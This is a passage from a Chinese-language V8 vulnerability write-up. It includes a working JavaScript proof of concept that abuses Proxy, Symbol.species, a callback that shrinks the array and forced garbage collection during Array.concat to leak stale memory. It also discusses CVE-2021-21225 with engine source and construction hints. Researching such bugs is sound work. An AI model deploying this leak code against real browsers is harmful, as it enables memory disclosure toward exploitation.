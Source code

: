 ```
  return func;
`}`
```

所以其实最后poc也可以改成这样。

```
var p1 = `{``}`
var p = new Proxy([], p1);
var b_dp = p.defineProperty;

class MyArray extends Array `{`
    static get [Symbol.species]() `{` return function() `{` return p; `}``}`; // custom constructor which returns a proxy object
`}`

var w = new MyArray(100);
w[1] = 0.1;
w[2] = 0.1;

function evil_callback() `{`
    w.length = 1; // shorten the array so the backstore pointer is relocated
    gc();         // force gc to move the array's elements backstore
    return b_dp;
`}`

p1.__defineGetter__("defineProperty", evil_callback);

var c = w.concat();

for (var i = 0; i &lt; 20; i++) `{` // however many values you want to leak
    print(c[i]);
`}`
```



## CVE-2021-21225

CVE-2021-21225的PoC尚未公开，我构造出了这个漏洞的poc，并在这里其造成回调的调用栈。

事实上这个漏洞利用了typedarray的valueof trick，从而在CreateDataProperty的shotcut路径里触发了回调，提示到这里，聪明的读者应该可以自己构造出来了。

这个漏洞的引入来自2021年的一个补丁修改了typedArray的一些feature。

```
// static
Maybe&lt;bool&gt; JSReceiver::CreateDataProperty(LookupIterator* it,
                                            Handle&lt;Object&gt; value,
                                            ShouldThrow should_throw) `{`
    DCHECK(!it-&gt;check_prototype_chain());
    Handle&lt;JSReceiver&gt; receiver = Handle&lt;JSReceiver&gt;::cast(it-&gt;GetReceiver());
    Isolate* isolate = receiver-&gt;GetIsolate();

    if (receiver-&gt;IsJSObject()) `{`
        return JSObject::CreateDataProperty(it, value, should_throw);  // Shortcut.
    `}`

    PropertyDescriptor new_desc;
    new_desc.set_value(value);
    new_desc.set_writable(true);
    new_desc.set_enumerable(true);
    new_desc.set_configurable(true);

    return JSReceiver::DefineOwnProperty(isolate, receiver, it-&gt;GetName(),
                                        &amp;new_desc, should_throw);
```
